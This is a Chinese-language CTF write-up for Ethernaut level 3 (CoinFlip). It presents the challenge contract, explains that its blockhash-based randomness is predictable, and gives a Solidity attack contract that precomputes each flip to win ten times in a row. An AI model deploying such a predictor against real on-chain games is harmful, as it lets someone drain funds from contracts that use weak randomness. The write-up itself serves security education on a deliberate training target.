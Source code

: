 # Ethernaut CTF Writeup

## Level 3 CoinFlip

> 題目: https://ethernaut.openzeppelin.com/level/0xae8ed765dbd45Ce48ebBd2496CeD6B1Ee29466fc

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

過關條件: 

- 這是一個擲銅板的遊戲，你需要連續地猜對十次

解法：

- 此題如同大部分偽隨機數的問題，產生隨機數的種子可預測，隨機數便可預測，此題運用區塊雜湊除以一個固定的 FACTOR，兩者皆為已知情況下，所產生的隨機數便不安全，產生的硬幣正反面結果便可預測，破壞此遊戲理想勝應有的 50% 勝率
- 由於手算每次正反面結果有點辛苦，編寫攻擊合約來達成是較可行的做法

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";  // Import the CoinFlip contract

contract CoinFlipPredictor {
    CoinFlip public coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _coinFlipAddress) {
        coinFlip = CoinFlip(_coinFlipAddress);  // Set the CoinFlip contract address
    }

    function predictFlip() public returns (bool) {
        // Get the previous block hash (block.number - 1)
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = blockValue / FACTOR;
        bool side = coinFlipResult == 1 ? true : false;

        // Call the CoinFlip contract with the predicted side
        bool result = coinFlip.flip(side);
        return result;
    }
}
```
